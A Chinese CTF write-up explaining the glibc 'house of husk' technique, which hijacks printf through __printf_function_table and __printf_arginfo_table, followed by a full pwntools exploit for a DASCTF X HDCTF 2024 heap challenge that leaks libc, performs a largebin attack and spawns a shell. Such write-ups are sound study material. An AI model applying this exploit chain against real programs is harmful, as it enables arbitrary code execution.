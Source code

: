 堆题使用_exit()退出程序，且存在printf并且使用了格式化字符，只能任意写堆地址。使用house of husk，通过一次任意地址写（任何非零值都可以），一次任意地址写可控地址，即可任意执行。

printf函数的一个功能是，可以允许用户自定义格式化字符所使用的函数。
如果用户使用__register_printf_specifier函数自定义某格式化字符对应的函数，就会在__printf_arginfo_table处calloc一块内存用于存放用户自定义的格式化字符函数表，表中每一个函数指针对应每一个ascii字符（格式化字符）所使用的自定义函数。
同时将__printf_function_table置为__printf_arginfo_table + UCHAR_MAX + 1

在调用printf时，会检测__printf_function_table是否为零。
若非零则代表用户自定义了格式化字符函数。
此时，程序会转而调用__printf_arginfo_table对应偏移处的函数。

于是利用思路就很明确了。
一次任意写将__printf_function_table置为任意非零值。
一次任意写将__printf_arginfo_table写为可控地址。
可控地址对应偏移处写上目标执行地址（其实正常堆题把chunk填满就行了）。
随后调用带格式化参数的printf，即可任意地址执行。

例题：[DASCTF X HDCTF 2024 最喜欢的一集](https://github.com/Seg-Tree/seg-tree.github.io/blob/main/pwn/DASCTF%20X%20HDCTF%202024%20%E6%9C%80%E5%96%9C%E6%AC%A2%E7%9A%84%E4%B8%80%E9%9B%86%EF%BC%9Ahouse%20of%20husk/pwn_4.7z)

远程环境：glibc-2.31-0ubuntu9.15_amd64
exp环境：glibc-2.31-0ubuntu9.16_amd64

一个uaf，一次edit，一次show，限制chunk 0x500~0x540，一次backdoor任意写一字符。
放进unsortedbin两个chunk，show uaf_chunk拿libc和heap。
largebin attack写在__printf_arginfo_table上。
backdoor写在__printf_function_table上。
输入非法字符退出，调用printf，getshell。

exp：
```python
from pwn import*
p = process("./pwn")
libc = ELF("./libc-2.31.so")
def add(siz,cot):
    p.sendlineafter("choice: \n","1")
    p.sendlineafter("name: ","Seg_Tree")
    p.sendlineafter("desciption: ",str(siz))
    p.sendlineafter("desciption: ",cot)

def fre(idx):
    p.sendlineafter("choice: \n","2")
    p.sendlineafter("people: ",str(idx))

def edi(idx,cot):
    p.sendlineafter("choice: \n","3")
    p.sendlineafter("people: ",str(idx))
    p.sendlineafter("people: ","Seg_Tree")
    p.sendlineafter("desciption: ",cot)

def sho(idx):
    p.sendlineafter("choice: \n","4")
    p.sendlineafter("people: ",str(idx))

def backdoor(addr,char):
    p.sendlineafter("choice: \n","255")
    p.sendlineafter("IU?\n","y")
    p.sendafter("reward!\n",addr)
    p.sendline(char)

add(0x520,"AAAAAAAA")           #0
add(0x510,"BBBBBBBB")           #1
add(0x500,"CCCCCCCC")           #2
add(0x510,"DDDDDDDD")           #3
fre(0)
fre(2)
sho(0)
unsortedbin = u64(p.recv(8))
libc_base = unsortedbin - 0x1Ecbe0
largebin = libc_base + 0x1ed010
print(hex(libc_base))
heap2 = u64(p.recv(8))
heap0 = heap2 - 0xa50
print(hex(heap0))
system = libc_base + libc.symbols["system"]
__printf_function_table = libc_base + 0x1F1318
__printf_arginfo_table = libc_base + 0x1ED7B0
ogg = libc_base + 0xe3afe
ogg = libc_base + 0xe3b01
print(hex(__printf_arginfo_table))
backdoor(p64(__printf_function_table),'a')

fake_table = p64(ogg)*0x80
payload = p64(largebin) + p64(largebin) + p64(heap0) + p64(__printf_arginfo_table - 0x20)

add(0x500,fake_table)           #4/former 2
fre(2)
edi(0,payload)
add(0x530,"put the unsorted chunk into large bin")          #5
# fre(4)
# gdb.attach(p,"b*$rebase(0x1d98)")
p.sendlineafter("choice: \n","H4cked_6y_Seg_Tree")
p.interactive()
```
做的时候以为全程总共只能分配6个chunk，free之后也没法回收，所以苦恼了好一会风水，最大程度精简了exp使用的chunk。然后才发现压根没这限制（（
